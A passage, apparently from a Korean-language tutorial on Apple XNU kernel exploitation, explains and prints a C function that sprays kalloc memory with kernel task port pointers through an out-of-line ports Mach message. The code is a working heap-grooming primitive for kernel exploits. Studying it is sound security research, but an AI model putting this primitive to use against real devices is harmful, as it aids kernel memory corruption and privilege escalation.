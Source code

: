 먼저 `Ports` 배열을 생성하여 사용자 모드 Task Port를 저장한 다음, OOL 메시지를 구성합니다. 나머지는 중요하지 않고, 핵심은 `msg->ool_ports.address`와 `msg->ool_ports.count`입니다. 이 두 항목만 제대로 구성하면 됩니다. 이후 `msg_send()` 함수를 호출하여 메시지를 전송하면, 이때 메모리 할당이 발생하고, 사용자 모드 Task Port가 커널 모드 Task Port의 주소로 변환되어 우리가 제어 가능한 메모리 공간에 기록됩니다.

```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```
